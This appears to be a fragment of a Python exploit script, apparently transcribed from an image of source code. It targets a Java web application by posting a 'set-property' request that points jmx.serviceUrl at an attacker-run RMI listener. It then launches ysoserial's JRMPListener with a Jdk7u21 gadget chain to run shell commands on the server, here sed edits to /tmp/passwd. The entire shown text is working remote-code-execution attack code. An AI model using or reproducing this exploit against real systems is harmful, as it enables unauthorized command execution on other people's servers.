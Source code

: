                 print("[+] Copy file to tmp directory =>", end=' ')
                burp0_url = remote + ressource
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {
                    "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
                r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json)
                if r.status_code == 500:
                    m = re.search('(undeclared checked exception; nested exception is)', r.text)
                    if m:
                        print("\033[92mOK\033[0m")
                    else:
                        print("\n[-] Error")
                        os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                        sys.exit()
                else:
                    print("KO")
                    os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                    sys.exit()
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                time.sleep(3)

                pro = subprocess.Popen(
                    "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'sed -i 1cpwn /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

                print("[+] Preparing file =>", end=' ')
                burp0_url = remote + ressource
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {
                    "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
                r = requests.post(
                    burp0_url, headers=burp0_headers, json=burp0_json)
                if r.status_code == 500:
                    print("\033[92mOK\033[0m")
                else:
                    print("KO")
                    os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                    sys.exit()
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                time.sleep(3)

                pro = subprocess.Popen(
                    "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'sed -i /[^pwn]/d /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

                print("[+] Cleaning temp file =>", end=' ')
                burp0_url = remote + ressource
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {
                    "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
                r = requests.post(
                    burp0_url, headers=burp0_headers, json=burp0_json)
                if r.status_code == 500:
                    print("\033[92mOK\033[0m")
                else:
                    print("KO")
                    os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                    sys.exit()
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                time.sleep(3)
